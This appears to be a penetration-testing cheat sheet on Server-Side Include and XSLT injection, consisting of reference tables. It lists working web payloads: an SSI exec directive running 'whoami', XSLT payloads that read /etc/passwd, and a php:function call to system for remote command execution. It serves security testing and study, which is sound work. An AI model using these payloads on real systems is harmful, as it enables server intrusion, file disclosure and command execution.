### **SSI Injection (Server-Side Includes)**

#### Directives

| Directive               | Example                                              |
| ----------------------- | ---------------------------------------------------- |
| Print variables         | `<!--#printenv -->`                                  |
| Change config           | `<!--#config errmsg="Error!" -->`                    |
| Print specific variable | `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` |
| Execute command         | `<!--#exec cmd="whoami" -->`                         |
| Include web file        | `<!--#include virtual="index.html" -->`              |
|                         |                                                      |
|                         |                                                      |


### **XSLT Injection**

#### Elements

|Element|Description|
|---|---|
|`<xsl:template>`|Defines a template for a specific XML path via `match` attribute.|
|`<xsl:value-of>`|Extracts the value of an XML node specified in `select`.|
|`<xsl:for-each>`|Loops over XML nodes specified in `select`.|
|`<xsl:sort>`|Sorts elements by a node (`select`) and order (`order`).|
|`<xsl:if>`|Tests conditions on a node via `test` attribute.|

#### Injection Payloads

| Type                       | Example                                                                                                                                                                                                                                                                                                                                   |
| -------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Information Disclosure** | `<xsl:value-of select="system-property('xsl:version')" />`  <br>`<xsl:value-of select="system-property('xsl:vendor')" />`  <br>`<xsl:value-of select="system-property('xsl:vendor-url')" />`  <br>`<xsl:value-of select="system-property('xsl:product-name')" />`  <br>`<xsl:value-of select="system-property('xsl:product-version')" />` |
| **LFI**                    | `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />`  <br>`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />`                                                                                                                                                                                        |
| **RCE**                    | `<xsl:value-of select="php:function('system','id')" />`                                                                                                                                                                                                                                                                                   |
|                            |                                                                                                                                                                                                                                                                                                                                           |
|                            |                                                                                                                                                                                                                                                                                                                                           |